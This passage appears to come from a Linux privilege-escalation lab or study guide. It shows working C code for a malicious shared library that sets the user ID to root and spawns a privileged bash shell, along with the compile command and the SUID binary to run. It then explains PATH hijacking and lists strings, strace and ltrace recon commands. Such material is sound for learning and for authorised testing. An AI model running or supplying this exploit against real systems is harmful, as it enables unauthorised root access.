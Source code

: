The libcalc.so shared object could not be found, and the program is looking in our user’s home directory, which we can write to.

Create the /home/user/.config directory.

Create the file libcalc.c with the following contents:

```
#include <stdio.h>
#include <stdlib.h>
static void inject() __attribute__((constructor));
void inject() {
setuid(0);
system("/bin/bash -p");
}
```

Compile libcalc.c into /home/user/.config/libcalc.so:

#### `gcc -shared -fPIC -o /home/user/.config/libcalc.so libcalc.c`

Run the SUID executable to get a root shell:

#### `/usr/local/bin/suid-so`

## <mark style="color:red;">PATH Environment Variable</mark>

The PATH environment variable contains a list of directories where the shell should try to find programs. If a program tries to execute another program, but only specifies the program name, rather than its full (absolute) path, the shell will search the PATH directories until it is found. Since a user has full control over their PATH variable, we can tell the shell to first look for programs in a directory we can write to.

#### If a program tries to execute another program, the name of that program is likely embedded in the executable file as a string. We can run strings on the executable file to find strings of characters. We can also use strace to see how the program is executing.

Another program called ltrace may also be of use.

Running strings against a file:

#### `strings /path/to/file`

Running strace against a command:

#### `strace -v -f -e execve [command] 2>&1 | grep exec`

Running ltrace against a command:

#### `ltrace [command]`

Find SUID/SGID files on the target:
